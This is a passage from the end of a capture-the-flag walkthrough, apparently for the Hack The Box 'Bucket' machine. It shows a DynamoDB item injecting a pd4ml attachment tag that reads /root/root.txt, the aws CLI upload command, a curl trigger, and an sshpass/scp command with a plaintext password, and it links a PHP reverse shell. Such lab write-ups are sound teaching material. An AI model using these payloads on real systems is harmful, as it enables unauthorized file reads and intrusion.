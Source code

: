     [1] Create file

    ```
    sudo vim ransomware.json
    ```

    File content (shortcut... removed the POC)

    ```
    {
    "title" : {"S" : "Ransomware"},
    "data" : {"S" : "<html><pd4ml:attachment src='file:///root/root.txt' description='attachment sample' icon='Paperclip' />"}
    }
    ```

    [2] Upload the file into the table

    ```
    aws --endpoint-url http://s3.bucket.htb --region us-east-1 dynamodb put-item --table-name alerts --item file://ransomware.json
    ```

    You can verify this using the scan command from Step 14

23. From inside the SSH... call the script by
    ```
    curl --data "action=get_alerts" http://localhost:8000
    ```
24. From your terminal...
    ```
    sshpass -p 'n2vM-<_K_Q:.Aa2' scp roy@10.10.10.212:/var/www/bucket-app/files/result.pdf .
    ```
    then
    ```
    evince result.pdf
    ```
    The output will be the root flag!
25. I would like to say it again, the steps from the #ROOT is not my own and came from walkthrough videos of John Hammond (predominantly) and IPPsec. All credit goes to these two legends. My intention is not to plagiarise but to inform others.

26. Also, you will find that the db reverts and deletes the table you've created very quickly... so you have to move quickly to get the root flag.

<br><br>

# Reference

1. https://github.com/pentestmonkey/php-reverse-shell
2. https://www.youtube.com/watch?v=5YweYcXoch8
3. https://www.youtube.com/watch?v=SgWhuTxm2oY
4. https://docs.aws.amazon.com/cli/latest/reference/s3/
5. https://docs.aws.amazon.com/cli/latest/reference/dynamodb/

<br><br>

[back to HOME](./)
